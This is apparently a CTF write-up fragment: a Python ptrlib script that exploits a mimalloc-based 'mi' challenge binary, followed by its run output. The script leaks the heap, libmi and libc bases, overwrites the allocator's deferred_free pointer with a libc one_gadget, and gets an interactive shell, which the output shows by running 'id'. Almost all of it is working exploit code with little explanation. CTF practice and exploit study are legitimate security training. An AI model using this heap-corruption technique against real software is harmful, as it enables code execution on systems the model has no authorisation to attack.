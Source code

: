 ```python
sock = Process("./mi", env={'LD_LIBRARY_PATH': './'})
#sock = Socket("mi.chal.ctf.westerns.tokyo", 10001)
libc_one_gadget = 0x10a38c

# leak heap
create(0, 0x20)
create(1, 0x20)
write(1, "1" * 0x20)
heap_base = u64(read(1)[0x20:]) - 0x16e0
logger.info("heap base = " + hex(heap_base))

# leak mi & libc
delete(0)
delete(1)
for i in range(0x7c):
    create(2, 0x20)
create(3, 0x20)
create(4, 0x20)
write(1, p64(heap_base + 0x88) + b'A'*0x18)
create(2, 0x20)
create(2, 0x20)
write(2, 'A' * 0x20)
libmi_base = u64(read(2)[0x20:]) - 0x2233c0
libc_base = libmi_base + 0x22a000
logger.info("libmi base = " + hex(libmi_base))
logger.info("libc base = " + hex(libc_base))
write(2, p64(0) * 3 + p64(0x20))

# overwrite deferred_free
delete(4)
delete(3)
ptr = heap_base + 0x2640 # list[3]->local_free == list[4]
write(4, p64(libmi_base + libmi.symbol("deferred_free")) + b"1"*0x18)
payload  = p64(libc_base + libc_one_gadget) # local_free
payload += p64(2)    # thread_freed
payload += p64(ptr)  # thread_free
payload += p64(0x20) # block_size
write(2, payload)

create(0, 0x20)
write(4, '\x00' * 0x20)
create(0, 0x20)
create(0, 0x20)

sock.interactive()
```

できた。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=15311)
[+] <module>: heap base = 0x7f52b9400000
[+] <module>: libmi base = 0x7f52c9492000
[+] <module>: libc base = 0x7f52c96bc000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```
